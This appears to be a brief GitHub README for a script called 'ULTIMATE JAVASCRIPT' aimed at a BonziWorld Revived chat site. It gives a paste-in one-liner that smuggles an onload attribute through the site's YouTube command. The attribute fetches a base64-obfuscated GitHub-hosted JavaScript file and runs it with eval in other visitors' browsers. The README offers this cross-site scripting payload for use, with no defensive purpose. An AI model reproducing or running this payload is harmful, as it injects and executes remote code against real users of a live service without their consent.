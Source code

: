 # ULTIMATE JAVASCRIPT
# How to use?
simply go into https://bonziworld-revived-1.onrender.com/ and
paste this script `function injescript(vid){socket.emit('command', { list: ['youtube', ''+vid+'" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'WEBDRIVER\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });}`
we are currently fixing the javaname thingy
